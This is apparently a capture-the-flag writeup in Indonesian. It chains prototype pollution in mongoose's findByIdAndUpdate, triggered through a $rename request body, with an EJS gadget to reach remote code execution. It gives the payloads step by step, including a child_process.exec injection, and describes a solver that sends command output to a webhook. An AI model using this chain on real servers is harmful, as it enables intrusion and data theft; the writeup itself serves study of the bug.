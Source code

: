 # Writeup

> TLDR; Terdapat bug prototype pollution pada library mongoose, lebih tepatnya fungsi findByIdAndUpdate. Kemudian pada EJS, terdapat gadget prototype pollution yang dapat dimanfaatkan sehingga dapat mengubah attack menjadi RCE.

1. Buat sebuah notes baru dengan isi konten berikut:
    ```
    title: 1
    content: JSON.stringify; process.mainModule.require('child_process').exec('<command RCE>')
    ```
2. Edit notes tersebut dengan body request berikut:
    ```
    {
        "$rename": {
            "title": "__proto__.client",
            "content": "__proto__.escapeFunction"
        }
    }
    ```
    Step ini akan menyiapkan agar nantinya saat prototype pollution ditrigger, semua object akan terinject dengan dua atribut, yakni `client` dan `escapeFunction` yang secara berturut-turut akan berisi title dan content pada notes tersebut.
3. Lalu trigger prototype pollution dengan memanggil fungsi `find()` di URL `/stats`.
4. Panggil URL random agar website melakukan render pada error page yang secara tidak langsung akan mengeksekusi RCE.

## How to use solver
> Solver memanfaatkan query parameter pada HTTP untuk eksfiltrasi data

1. Ubah link webhook, command RCE, web target yang diinginkan pada `solver.py`
2. Jalankan `solver.py`, kemudian nanti akan muncul sebuah request pada webhook dengan query berupa base64 hasil dari command RCE yang dieksekusi.

## Reference
- https://huntr.dev/bounties/1eef5a72-f6ab-4f61-b31d-fc66f5b4b467/
- https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce